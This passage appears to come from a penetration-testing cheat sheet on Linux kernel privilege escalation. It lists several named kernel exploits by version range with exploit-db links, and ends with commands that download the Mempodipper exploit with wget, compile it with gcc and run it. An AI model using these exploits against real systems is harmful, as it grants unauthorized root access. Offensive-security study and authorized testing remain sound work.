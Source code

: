 Make sure to compile it before you exploit

#### Linux Kernel 2.6.22 < 3.9 Privilege Escalation

Download from

```
https://www.exploit-db.com/exploits/40616
```

Make sure to compile it before you exploit

#### Linux Kernel 2.6 Privilege Escalation

Download from

```
https://www.exploit-db.com/exploits/8478
```

Make sure to compile it before you exploit

#### Linux Kernel 3.13.0 < 3.19 Overlayfs Privilege Escalation

```
https://www.exploit-db.com/exploits/37292
```

#### CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

```
https://www.exploit-db.com/exploits/15285/
```

#### Linux Kernel <= 2.6.37 'Full-Nelson.c'

```
https://www.exploit-db.com/exploits/15704/
```

#### CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

Download from

```
https://git.zx2c4.com/CVE-2012-0056/about/

wget -O exploit.c <http://www.exploit-db.com/download/18411>
```

Then compile and execute

```
gcc -o mempodipper exploit.c

./mempodippe
```
